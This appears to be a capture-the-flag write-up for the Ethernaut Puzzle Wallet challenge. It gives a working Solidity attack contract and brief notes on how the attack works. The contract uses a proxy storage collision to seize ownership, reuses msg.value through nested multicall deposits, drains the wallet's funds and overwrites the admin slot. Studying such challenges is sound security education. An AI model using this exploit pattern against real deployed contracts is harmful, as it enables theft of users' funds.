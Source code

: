 ```javascript
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

contract PuzzleWalletAttack {
    constructor () public payable {
    }

    function setOwner(address addr) public {
        (bool success, ) = addr.call(abi.encodeWithSignature("proposeNewAdmin(address)", address(this)));
        require(success, "failed to propose new admin.");
    }

    function attack(address addr) public{
        (bool success2, ) = addr.call(abi.encodeWithSignature("addToWhitelist(address)", address(this)));
        require(success2, "failed to add to whitelist.");
        bytes[] memory data = new bytes[](1);
        data[0] = (abi.encodeWithSignature("deposit()"));
        bytes memory multicall_sig = abi.encodeWithSignature("multicall(bytes[])", data);
        bytes[] memory multicall_data = new bytes[](2);
        multicall_data[0] = multicall_sig;
        multicall_data[1] = multicall_sig;
        uint256 balance_to_deposit = 1000000000000000;
        (bool success3, ) = addr.call{value : balance_to_deposit}(abi.encodeWithSignature("multicall(bytes[])", multicall_data));
        require(success3, "failed to multicall deposit.");
        bytes memory empty;
        uint256 balance_to_extract = 2000000000000000;
        (bool success4, ) = addr.call(abi.encodeWithSignature("execute(address,uint256,bytes)", tx.origin, balance_to_extract, empty));
        require(success4, "failed to drain deposit.");
        (bool success5, ) = addr.call(abi.encodeWithSignature("setMaxBalance(uint256)", uint256(tx.origin)));
        require(success5, "failed to set admin.");
    }
}
```

We need `ABIEncodeV2` because we are using nested array type.

First, call `setOwner` to update the owner variable to our address. This is possible due to storage collision, since everthing will be delegatecall-ed to the implementation contract, we have to make sure the storage of the proxy and the wallet is aligned.

The second step is to explioit the multicall function to recursively call `deposit` and thus reusing the `msg.value`.